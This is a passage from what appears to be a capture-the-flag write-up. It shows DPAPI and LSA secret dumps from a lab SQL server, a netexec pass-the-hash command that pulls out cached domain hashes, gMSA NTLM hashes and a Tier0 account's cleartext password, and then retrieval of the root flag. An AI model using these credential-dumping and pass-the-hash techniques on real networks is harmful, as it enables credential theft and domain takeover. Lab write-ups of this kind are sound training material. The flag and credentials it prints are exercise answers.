0010   38 EE 5D B5 D2 C8 B3 35 40 B3 6F 0A C5 99 18 C6    8.]....5@.o.....
0020   08 68 61 52 CB 7F 09 F7 4A 22 F5 44                .haR....J".D

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   DD 2D 72 B9 BE 74 99 CD 70 20 9F D0 D6 B0 BC A2    .-r..t..p ......
0020   06 35 D0 86 2B 5B F4 E8 B6 2D A7 98 71 A5 D7 B0    .5..+[...-..q...
0030   8F F6 54 B3 03 84 61 29 9E 50 AA A0 F1 E1 87 6D    ..T...a).P.....m
0040   C0 ED 2D 3D 31 F5 F3 3D 0E FA 2C 8E 8B 87 37 74    ..-=1..=..,...7t
0050   D0 E9 81 81 7E 6B F7 06 FB C6 6D 91 30 1F C6 3F    ....~k....m.0..?

_SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_1d5ba0b9160e71945149f8ccaf3977d258e644a816fc38e113c2679adb22df7e
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   EA EC E5 E4 40 7D 8E 58 EA C0 80 6E 18 B8 64 41    ....@}.X...n..dA
0020   43 D4 37 1A 8D 7B 2C 11 3F 33 F8 88 B2 1F 7B E0    C.7..{,.?3....{.
0030   D5 3D 74 41 97 3F B1 11 53 05 75 1B 4E AF F2 9E    .=tA.?..S.u.N...
0040   1D A6 86 72 79 2F 4E 80 AF 4A B1 2D D5 13 22 89    ...ry/N..J.-..".
0050   2D 74 09 9D 0E F4 9F 5B F8 B5 1E 89 97 27 80 D7    -t.....[.....'..
0060   A3 07 84 F7 2E 0C 27 CF 89 FA 6B 19 82 45 FA DC    ......'...k..E..
0070   EA CF F5 E0 42 86 B3 86 77 5F 4E 18 61 AF 9C D4    ....B...w_N.a...
0080   BE 02 3C B1 E4 8E 82 81 34 C9 33 D6 AC 98 18 51    ..<.....4.3....Q
0090   F0 B2 EA 96 17 43 80 93 0A 73 F4 0D CB 18 D3 27    .....C...s.....'
00A0   DE 83 26 9D 7B B6 2A 54 EA 13 4C 28 BE 89 B9 59    ..&.{.*T..L(...Y
00B0   C3 B2 0C DE 0A 6F 86 3B 42 D0 27 0C 93 7B C4 3A    .....o.;B.'..{.:
00C0   37 F2 67 26 22 83 5B 57 79 16 ED DF E2 2B 5F 1C    7.g&".[Wy....+_.
00D0   F2 E9 8E F5 2A C6 79 0D 66 94 77 47 F7 C3 5A 46    ....*.y.f.wG..ZF
00E0   97 C6 67 88 45 3B D9 E5 41 55 E1 1B 3D E1 BA 04    ..g.E;..AU..=...
00F0   0E ED C8 44 DA 89 04 7F DB D4 D8 50 68 D8 05 F4    ...D.......Ph...
0100   41 28 70 D5 18 19 9F ED 58 66 16 CC 52 A3 54 CA    A(p.....Xf..R.T.

_SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_32640c1060d5e3dcd2e6553db620ead107d29e576a3d44f428b9946d8f1fcef9
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   F9 B1 B7 1E 7A B3 15 5C C2 42 9E E4 C8 BC 8B 32    ....z....B.....2
0020   21 DC 67 B6 DB CE 59 D7 6E 87 14 9B 6E 91 09 F3    !.g...Y.n...n...
0030   F5 47 EA F0 8D 2F 40 C3 58 BC B9 09 D8 5F 97 E6    .G.../@.X...._..
0040   25 26 59 F7 95 37 38 81 A8 67 6C 24 39 F7 F6 A4    %&Y..78..gl$9...
0050   07 4A E7 40 64 0E 3B 7F 24 66 86 8E 9E 4B EE 94    .J.@d.;.$f...K..
0060   6F 52 16 54 66 9D 46 E1 77 D2 6C F4 27 E3 04 AF    oR.Tf.F.w.l.'...
0070   1E 2D 69 2F 55 30 72 DC 8C 0F 30 61 71 60 5A 76    .-i/U0r...0aq`Zv
0080   BB 65 58 5D 5C 9E F1 40 7A 82 F9 16 0F 9F E7 C0    .eX]...@z.......
0090   F9 9B 08 98 AD C3 ED 63 A0 80 44 A1 A4 3C 04 85    .......c..D..<..
00A0   0C DA 93 9A DA 50 E4 BB 2C 6A 2E CE BB CC B2 45    .....P..,j.....E
00B0   E8 E3 95 AE 98 6D B9 8D 08 1F 0A 55 E3 F8 53 80    .....m.....U..S.
00C0   40 F4 A2 1E 1C 0F 9F CA 0B 35 7A 91 8B 95 8A DE    @........5z.....
00D0   58 38 EE FA 4D 04 25 AF C3 95 18 5A DE 21 9B 34    X8..M.%....Z.!.4
00E0   68 2A 52 5A F4 65 F1 2A D9 FF D7 4D BD 8C 8A BE    h*RZ.e.*...M....
00F0   4E 60 9F E5 3D F9 0A D9 1C 85 19 DE 64 80 7D 99    N`..=.......d.}.
0100   80 71 AA 87 5C 2A 4A FB 42 C3 5F 9E 45 7C 8F B7    .q...*J.B._.E|..

_SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_1d5ba0b9160e71945149f8ccaf3977d258e644a816fc38e113c2679adb22df7e
0000   24 02 00 00 00 00 00 00 00 00 00 00 00 00 00 00    $...............
0010   01 00 00 00 24 02 00 00 10 00 12 01 14 02 1C 02    ....$...........
0020   12 7A E5 67 2A A1 6E 50 97 35 27 DA 9F 7A 33 8D    .z.g*.nP.5'..z3.
0030   81 5A 65 D6 44 24 66 C4 71 52 F9 EF 17 F4 E9 88    .Ze.D$f.qR......
0040   A4 0F 71 7D C6 3C 53 F8 13 15 73 CD E4 67 49 E1    ..q}.<S...s..gI.
0050   E7 0C 28 6F 92 ED 34 B0 7B 7D 49 25 AB 5B C6 37    ..(o..4.{}I%.[.7
0060   C8 D8 C1 45 C5 A9 BB DF 6D E4 38 60 38 5C 23 FE    ...E....m.8`8.#.
0070   B8 C7 4C 60 73 1B FF 20 FC 2F FB 0B C7 98 37 B8    ..L`s.. ./....7.
0080   0A 75 77 1E 77 DB 1B 42 75 BB BE 98 33 56 1A 96    .uw.w..Bu...3V..
0090   C8 ED 02 F4 88 0A A0 00 2D 0C FF 7B C9 69 56 E5    ........-..{.iV.
00A0   F8 E5 18 2F CC 14 00 CB F7 87 8A DB 59 0F 2A A8    .../........Y.*.
00B0   68 75 A0 84 50 D9 CC FD CD CB 50 2B AE A7 7E 16    hu..P.....P+..~.
00C0   B8 90 97 8A 58 FB 04 15 4F 9D 44 0F BD 74 5D 0E    ....X...O.D..t].
00D0   82 EF 75 88 3F FD 2C C3 40 F3 E8 59 A3 C4 DD 9F    ..u.?.,.@..Y....
00E0   6F F2 0E A3 C2 21 B3 58 BD 71 03 D7 B3 5E 28 6B    o....!.X.q...^(k
00F0   84 70 7E A3 B6 6E 83 1A 50 7D 99 07 B3 70 D4 56    .p~..n..P}...p.V
0100   8F 1C 0C FE 0B 68 44 27 EE 8D 41 02 E4 CF 7A FD    .....hD'..A...z.
0110   A7 69 45 5E 03 EA EE 7F EF 1D 2B FE EA A4 85 EC    .iE^......+.....
0120   00 00 D9 7D 44 78 A4 8A B6 13 D2 E7 3F 19 80 C1    ...}Dx......?...
0130   4E C5 A1 BC DC 8A 13 BA 09 34 A4 43 F6 7F 42 B2    N........4.C..B.
0140   7F CE 8F A2 DD F3 1D 6C C5 0F 17 61 85 10 83 33    .......l...a...3
0150   FD 0E B9 54 7E 24 55 26 40 F6 76 36 13 39 59 0C    ...T~$U&@.v6.9Y.
0160   1F DF BD 63 3B 39 4B 98 A3 41 60 DA B8 44 A5 8E    ...c;9K..A`..D..
0170   00 6A 42 56 BE 80 7F 25 C1 86 56 4F 9B 36 4D E6    .jBV...%..VO.6M.
0180   23 7C 44 C2 9E 4E EA 37 41 03 CF C8 B8 FA E6 2F    #|D..N.7A....../
0190   46 8E A8 75 6C 93 5D C9 39 4A ED 86 FD 0A 61 BF    F..ul.].9J....a.
01A0   36 0E 3C CC C1 28 40 99 E9 A8 9E DC 1B 90 EC F2    6.<..(@.........
01B0   D6 01 16 13 D6 71 47 80 45 95 D3 3B 86 66 61 23    .....qG.E..;.fa#
01C0   85 CB 46 BB C3 14 91 5A 64 B6 8A CE B9 B2 05 B9    ..F....Zd.......
01D0   85 34 D9 FF BA 46 64 F4 3D 5D 4E 8A CC 48 D4 A4    .4...Fd.=]N..H..
01E0   9F 51 24 BE C6 DF B7 13 D0 96 92 9F F6 EE F2 6B    .Q$............k
01F0   50 C3 49 16 18 E6 57 C2 3E 76 A3 A0 7B 17 24 2F    P.I...W.>v..{.$/
0200   72 CD 23 54 4B 65 22 BE FD 98 EE 45 BD A6 44 16    r.#TKe"....E..D.
0210   54 93 AE 02 87 6F 76 73 0E FE EA 57 5B 35 83 2E    T....ovs...W[5..
0220   92 C4 00 00 FF 86 EE 3D F9 09 00 00 FF 28 1E 8B    .......=.....(..
0230   F8 09 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................

_SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_32640c1060d5e3dcd2e6553db620ead107d29e576a3d44f428b9946d8f1fcef9
0000   22 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00    "...............
0010   01 00 00 00 22 01 00 00 10 00 00 00 12 01 1A 01    ...."...........
0020   4E 20 77 1E 80 7C AB 75 D0 31 B0 45 FE 4D DB F2    N w..|.u.1.E.M..
0030   4A 80 D5 FB E7 07 3D CF 74 3A C4 45 60 65 A5 C0    J.....=.t:.E`e..
0040   74 CA BC 95 85 A0 7D 32 24 F5 90 ED F0 16 2E A1    t.....}2$.......
0050   36 C9 EE 96 8C 20 43 61 D9 3A F6 08 70 5B BD 23    6.... Ca.:..p[.#
0060   59 E7 60 A1 3F 9A BA 64 B3 3C B8 53 41 09 CB 2B    Y.`.?..d.<.SA..+
0070   34 81 A5 26 56 82 CE C6 21 3B D7 C4 DE AC 71 D0    4..&V...!;....q.
0080   34 3F DF B0 86 F0 FD 13 04 2C DD F2 5E 2B 4D 09    4?.......,..^+M.
0090   B3 91 21 9A 2D A2 17 13 07 89 00 A8 05 F7 B7 2D    ..!.-..........-
00A0   13 19 45 D6 C9 C0 12 D3 41 5F 0A 50 C1 47 7C 61    ..E.....A_.P.G|a
00B0   3A B2 54 A7 16 50 51 1C 81 2A F4 30 D9 E8 39 F6    :.T..PQ..*.0..9.
00C0   8B 9D BA 3A D6 D9 6C F3 9F CE 7E AD 69 A1 8C 36    ...:..l...~.i..6
00D0   FB EA A5 21 BF 60 A2 FA 3A 99 41 C9 C9 D6 0B A1    ...!.`..:.A.....
00E0   7C 7F E0 DA 9B 95 75 DB 39 69 E0 1E 43 6B 53 24    |.....u.9i..CkS$
00F0   3B 2E 86 E8 4B 6F F8 0F 3F 9C D8 B4 C9 9B 94 C8    ;...Ko..?.......
0100   A3 CC C9 82 6C 9B F5 C3 D2 2A 22 B3 C0 59 3D C4    ....l....*"..Y=.
0110   86 8B FB 2C 8D 99 90 41 14 59 10 7B 39 2F E2 0F    ...,...A.Y.{9/..
0120   00 00 0D E9 6A EA 86 17 00 00 0D 8B 9A 37 86 17    ....j........7..
0130   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................

_SC_SQLTELEMETRY
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   32 E6 76 DF C2 E0 39 AB E0 D6 90 8F 66 02 0B 1B    2.v...9.....f...


------------------- Vault passwords -----------------

[-] Password not found !!!
URL: Domain:batch=TaskScheduler:Task:{3C0BC8C6-D88D-450C-803D-6A412D858CF2}
Login: TENGU\T0_c.fowler


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 35.39967155456543
PS C:\temp> PS C:\temp> 


```

Now from the DPAPI secrets I was able to obtain  the creds for a Tier0 account which should let me become admin pretti quickly i suppose:

```bash
└─$ netexec smb SQL -u Administrator -H 73db3fdd24bee6eeb5aac7e17e4aba4c --local-auth --lsa --dpapi
SMB         192.168.50.12   445    SQL              [*] Windows Server 2022 Build 20348 (name:SQL) (domain:SQL) (signing:False) (SMBv1:None)
SMB         192.168.50.12   445    SQL              [+] SQL\Administrator:73db3fdd24bee6eeb5aac7e17e4aba4c (Pwn3d!)
SMB         192.168.50.12   445    SQL              [+] Dumping LSA secrets
SMB         192.168.50.12   445    SQL              TENGU.VL/c.fowler:$DCC2$10240#c.fowler#8e756b24fb4b7a28304fdb7f7ecceac3: (2024-03-09 20:05:50)
SMB         192.168.50.12   445    SQL              TENGU.VL/Administrator:$DCC2$10240#Administrator#c4a40d890a5b5c08e336779acf150c61: (2024-03-10 18:51:27)
SMB         192.168.50.12   445    SQL              TENGU.VL/gMSA01$:$DCC2$10240#gMSA01$#16880ac22677721b81017c763687e239: (2026-03-17 03:23:11)
SMB         192.168.50.12   445    SQL              TENGU\SQL$:aes256-cts-hmac-sha1-96:371c5a74ad4313321a336cb34c26597ea4bbe6b7f3c4a1869aa0f253c86b890f
SMB         192.168.50.12   445    SQL              TENGU\SQL$:aes128-cts-hmac-sha1-96:e15ba9124784e01e559badc69fb9154e
SMB         192.168.50.12   445    SQL              TENGU\SQL$:des-cbc-md5:5e679d583e0726b3
SMB         192.168.50.12   445    SQL              TENGU\SQL$:plain_password_hex:dfb49bcb1a3b320e90d4a892d5ef330acf3a53d4ae0637eb916b51ea798f7b198dfc2b7c644aee0ed21503299807cba37cda2d0ef54bff9b9ca9e2c872ee7b231b2a1c6906bae5532fa770b5c1a5fa0a6afa9b12ea8195b3d35bbceb49014f8a854450961393b703025518b66f2958c4aa43bd43f70c9d977e86cf6ac71c569f90b54a665e744b42780f2b57af47c9f2d643f6292b621062da02f6f0f115236f3d9f7494213ff3690ccb9728af5f08e19d4488940937d7b6f343c5a56313b0d04b909a50c8f4938321ee243b982559c3516b3cdfed39ca0c8014fff0fe9ba73324ddc795fcd364292e56cf012490f49a
SMB         192.168.50.12   445    SQL              TENGU\SQL$:aad3b435b51404eeaad3b435b51404ee:8f47b4d80b38c1408b3753e71f130e36:::
SMB         192.168.50.12   445    SQL              dpapi_machinekey:0xc9c2333305555b68c729fd0938ee5db5d2c8b335
dpapi_userkey:0x40b36f0ac59918c608686152cb7f09f74a22f544
SMB         192.168.50.12   445    SQL              _SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_1d5ba0b9160e71945149f8ccaf3977d258e644a816fc38e113c2679adb22df7e:eaece5e4407d8e58eac0806e18b8644143d4371a8d7b2c113f33f888b21f7be0d53d7441973fb1115305751b4eaff29e1da68672792f4e80af4ab12dd51322892d74099d0ef49f5bf8b51e89972780d7a30784f72e0c27cf89fa6b198245fadceacff5e04286b386775f4e1861af9cd4be023cb1e48e828134c933d6ac981851f0b2ea96174380930a73f40dcb18d327de83269d7bb62a54ea134c28be89b959c3b20cde0a6f863b42d0270c937bc43a37f2672622835b577916eddfe22b5f1cf2e98ef52ac6790d66947747f7c35a4697c66788453bd9e54155e11b3de1ba040eedc844da89047fdbd4d85068d805f4
SMB         192.168.50.12   445    SQL              _SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_32640c1060d5e3dcd2e6553db620ead107d29e576a3d44f428b9946d8f1fcef9:f9b1b71e7ab3155cc2429ee4c8bc8b3221dc67b6dbce59d76e87149b6e9109f3f547eaf08d2f40c358bcb909d85f97e6252659f795373881a8676c2439f7f6a4074ae740640e3b7f2466868e9e4bee946f521654669d46e177d26cf427e304af1e2d692f553072dc8c0f306171605a76bb65585d5c9ef1407a82f9160f9fe7c0f99b0898adc3ed63a08044a1a43c04850cda939ada50e4bb2c6a2ecebbccb245e8e395ae986db98d081f0a55e3f8538040f4a21e1c0f9fca0b357a918b958ade5838eefa4d0425afc395185ade219b34682a525af465f12ad9ffd74dbd8c8abe4e609fe53df90ad91c8519de64807d99
SMB         192.168.50.12   445    SQL              _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_1d5ba0b9160e71945149f8ccaf3977d258e644a816fc38e113c2679adb22df7e:01000000240200001000120114021c02127ae5672aa16e50973527da9f7a338d815a65d6442466c47152f9ef17f4e988a40f717dc63c53f8131573cde46749e1e70c286f92ed34b07b7d4925ab5bc637c8d8c145c5a9bbdf6de43860385c23feb8c74c60731bff20fc2ffb0bc79837b80a75771e77db1b4275bbbe9833561a96c8ed02f4880aa0002d0cff7bc96956e5f8e5182fcc1400cbf7878adb590f2aa86875a08450d9ccfdcdcb502baea77e16b890978a58fb04154f9d440fbd745d0e82ef75883ffd2cc340f3e859a3c4dd9f6ff20ea3c221b358bd7103d7b35e286b84707ea3b66e831a507d9907b370d4568f1c0cfe0b684427ee8d4102e4cf7afda769455e03eaee7fef1d2bfeeaa485ec0000d97d4478a48ab613d2e73f1980c14ec5a1bcdc8a13ba0934a443f67f42b27fce8fa2ddf31d6cc50f176185108333fd0eb9547e24552640f676361339590c1fdfbd633b394b98a34160dab844a58e006a4256be807f25c186564f9b364de6237c44c29e4eea374103cfc8b8fae62f468ea8756c935dc9394aed86fd0a61bf360e3cccc1284099e9a89edc1b90ecf2d6011613d67147804595d33b8666612385cb46bbc314915a64b68aceb9b205b98534d9ffba4664f43d5d4e8acc48d4a49f5124bec6dfb713d096929ff6eef26b50c3491618e657c23e76a3a07b17242f72cd23544b6522befd98ee45bda644165493ae02876f76730efeea575b35832e92c40000ff86ee3df9090000ff281e8bf8090000
SMB         192.168.50.12   445    SQL              GMSA ID: 1d5ba0b9160e71945149f8ccaf3977d258e644a816fc38e113c2679adb22df7e NTLM: 43fbc277b8bf97b594c6359104a084e8
SMB         192.168.50.12   445    SQL              _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_32640c1060d5e3dcd2e6553db620ead107d29e576a3d44f428b9946d8f1fcef9:01000000220100001000000012011a014e20771e807cab75d031b045fe4ddbf24a80d5fbe7073dcf743ac4456065a5c074cabc9585a07d3224f590edf0162ea136c9ee968c204361d93af608705bbd2359e760a13f9aba64b33cb8534109cb2b3481a5265682cec6213bd7c4deac71d0343fdfb086f0fd13042cddf25e2b4d09b391219a2da21713078900a805f7b72d131945d6c9c012d3415f0a50c1477c613ab254a71650511c812af430d9e839f68b9dba3ad6d96cf39fce7ead69a18c36fbeaa521bf60a2fa3a9941c9c9d60ba17c7fe0da9b9575db3969e01e436b53243b2e86e84b6ff80f3f9cd8b4c99b94c8a3ccc9826c9bf5c3d22a22b3c0593dc4868bfb2c8d9990411459107b392fe20f00000de96aea861700000d8b9a3786170000
SMB         192.168.50.12   445    SQL              GMSA ID: 32640c1060d5e3dcd2e6553db620ead107d29e576a3d44f428b9946d8f1fcef9 NTLM: 9f69f30f5d881c758738caeedcf29a65
SMB         192.168.50.12   445    SQL              [+] Dumped 13 LSA secrets to /home/user/.nxc/logs/lsa/SQL_None_2026-03-17_162830.secrets and /home/user/.nxc/logs/lsa/SQL_None_2026-03-17_162830.cached
SMB         192.168.50.12   445    SQL              [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         192.168.50.12   445    SQL              [+] Got 7 decrypted masterkeys. Looting secrets...
SMB         192.168.50.12   445    SQL              [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{3C0BC8C6-D88D-450C-803D-6A412D858CF2} - TENGU\T0_c.fowler:UntrimmedDisplaceModify25

```

Now before moving finally to the DC I will obtain the second flag:

```bash
    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         5/14/2025   1:42 AM             39 root.txt                                                              


evil-winrm-py PS C:\Users\Administrator\Desktop> cat root.txt
TENGU{27439c2a11a093059463e9b7ffb6cd7c}
evil-winrm-py PS C:\Users\Administrator\Desktop>


```

I can now move to the DC.

&nbsp;